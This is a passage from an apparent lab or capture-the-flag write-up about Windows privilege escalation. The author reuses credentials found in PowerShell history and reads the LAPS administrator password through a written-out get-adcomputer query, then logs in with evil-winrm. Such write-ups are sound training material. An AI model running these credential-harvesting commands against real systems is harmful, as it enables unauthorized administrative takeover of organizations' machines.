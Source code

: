 ## Privileges Escalation
I tried to run `winpeas` but the AV detected it was malware, virus (of course). Somehow, even the obfuscation version still doesn't work for me. So, I decided to do the manual enumeration.

And Then I found the powershell history file that contain some information of `svc_deploy` user.

![pwsh history](https://user-images.githubusercontent.com/58801547/161920186-79356fd2-3775-4048-b45a-b50e7d190d18.png)

I just copied those command and run it with `whoami /groups` to check user groups (You can login to `svc_deploy` user with `evil-winrm` as well but I'm just lazy).

**command:** `invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /groups}`

![svc groups](https://user-images.githubusercontent.com/58801547/161920810-8e1e74da-d1d1-48d9-b515-ffb29b752bf8.png)
> `svc_deploy` was in `LAPS_Readers` groups maybe this user has permission to read the `administrator` password.

After some googling, I found this situation was quite similar to this machine. Let's try it.
![laps exploit](https://user-images.githubusercontent.com/58801547/161922148-60181f36-70f9-4c62-b6c3-689701685f89.png)


**command:** `invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {get-adcomputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd' , 'ms-mcs-admpwdexpirationtime'}`

![image](https://user-images.githubusercontent.com/58801547/161921811-10cd48c9-1ccf-47a8-b77b-7709c269e6bc.png)
> Got `admininstrator` password woohoo~.

![admin shell](https://user-images.githubusercontent.com/58801547/161921859-57a5ce1c-7429-4b57-b259-2573ec59ddd2.png)
> Just login with `evil-winrm` and PWNED :)


## Referrences

https://github.com/crackpkcs12/crackpkcs12

https://adsecurity.org/?p=3164 
